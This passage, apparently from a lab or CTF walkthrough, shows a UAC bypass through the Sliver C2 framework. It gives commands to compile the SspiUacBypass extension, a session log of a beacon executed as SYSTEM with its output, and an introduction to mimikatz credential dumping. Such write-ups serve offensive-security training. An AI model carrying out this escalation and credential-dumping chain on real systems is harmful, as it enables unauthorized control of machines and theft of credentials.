 ```Powershell
============================= ================================================= ===========================
SeChangeNotifyPrivilege       Bypass traverse checking                          Enabled                       
SeIncreaseWorkingSetPrivilege Increase a process working set                    Disabled
```


To elevate our user and Bypass UAC we can [UAC-BOF-Bonanza](https://github.com/icyguider/UAC-BOF-Bonanza).
```Bash
# Copy the bypass in extension folder and compile
cp -rp ./UAC-BOF-Bonanza/SspiUacBypass ~/.sliver-client/extensions/
cd ~/.sliver-client/extensions/SspiUacBypass/; make
```


After compiling we can load the BOF in sliver and then excute our beacon file in order to get elevated shell. 
```Bash
sliver (puppet-mtls) > extensions load /home/sz/.sliver-client/extensions/SspiUacBypass

[*] Added SspiUacBypass command: Perform UAC bypass via SSPI Datagram Contexts

sliver (puppet-mtls) > SspiUacBypass C:\\programdata\\puppet\\puppet-update.exe

[*] Successfully executed SspiUacBypass (coff-loader)
[*] Got output:

        SspiUacBypass - Bypassing UAC with SSPI Datagram Contexts
        by @splinter_code

Forging a token from a fake Network Authentication through Datagram Contexts
Network Authentication token forged correctly, handle --> 0x2a4
Forged Token Session ID set to 1. lsasrv!LsapApplyLoopbackSessionId adjusted the token to our current session 
Bypass Success! Now impersonating the forged token... Loopback network auth should be seen as elevated now
Invoking CreateSvcRpc (by @x86matthew)
Connecting to \\127.0.0.1\pipe\ntsvcs RPC pipe 
Opening service manager...
Creating temporary service...
Executing 'C:\programdata\puppet\puppet-update.exe' as SYSTEM user...
Deleting temporary service...
Finished


[*] Beacon 3e11f012 puppet-mtls - 10.10.144.118:58591 (File01) - windows/amd64 - Thu, 22 May 2025 02:33:31 EDT
```

## Credential Dumping
Now we can dump the credentials from the server. we can use both sideload to execute mimikatz binary in the beacon process and also use mimikatz built-in function.
